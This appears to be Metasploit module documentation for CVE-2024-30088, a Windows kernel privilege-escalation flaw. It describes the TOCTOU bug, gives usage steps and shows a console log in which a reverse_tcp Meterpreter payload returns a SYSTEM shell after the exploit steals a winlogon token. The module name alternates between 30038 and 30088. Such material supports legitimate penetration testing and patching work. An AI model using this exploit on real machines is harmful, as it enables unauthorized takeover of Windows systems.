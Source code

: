 ## Vulnerable Application
CVE-2024-30088 is a Windows Kernel Elevation of Privilege Vulnerability which affects many recent versions of Windows 10,
Windows 11 and Windows Server 2022.

The vulnerability exists inside the function called `AuthzBasepCopyoutInternalSecurityAttributes` specifically when
the kernel copies the `_AUTHZBASEP_SECURITY_ATTRIBUTES_INFORMATION` of the current token object to user mode. When the
kernel preforms the copy of the `SecurityAttributesList`, it sets up the list of the SecurityAttribute's structure
directly to the user supplied pointed. It then calls `RtlCopyUnicodeString` and
`AuthzBasepCopyoutInternalSecurityAttributeValues` to copy out the names and values of the `SecurityAttribute` leading
to multiple Time Of Check Time Of Use (TOCTOU) vulnerabilities in the function.

### Setup

Windows 10 22H2 versions without the patch (before 10.0.19045.4529) are vulnerable out of the box.
This exploit module has been tested on Windows 10 version 22H2 build 19045.2965.

## Verification Steps

1. Start msfconsole
1. Get a user level session on an affected Windows machine
1. Do: `use windows/local/cve_2024_30038_authz_basep`
1. Set the `LHOST`, `LPORT`, and `SESSION` options
1. Run the module
1. Receive a session running in the context of the `NT AUTHORITY\SYSTEM` user.

## Scenarios
### Windows 10 (10.0 Build 19045.2965)
```
msf > use windows/local/cve_2024_30038_authz_basep
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2024_30038_authz_basep) > set session -1
session => -1
msf exploit(windows/local/cve_2024_30088_authz_basep) > exploit

[*] Started reverse TCP handler on 172.16.199.1:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version detected: Windows 10+ Build 19045
[*] Reflectively injecting the DLL into 696...
[+] The exploit was successful, reading SYSTEM token from memory...
[+] Successfully stole winlogon handle: 3432
[+] Successfully retrieved winlogon pid: 452
[*] Sending stage (201798 bytes) to 172.16.199.208
[*] Meterpreter session 18 opened (172.16.199.1:5555 -> 172.16.199.208:52890) at 2024-08-30 12:45:49 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-FGNRA7E
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
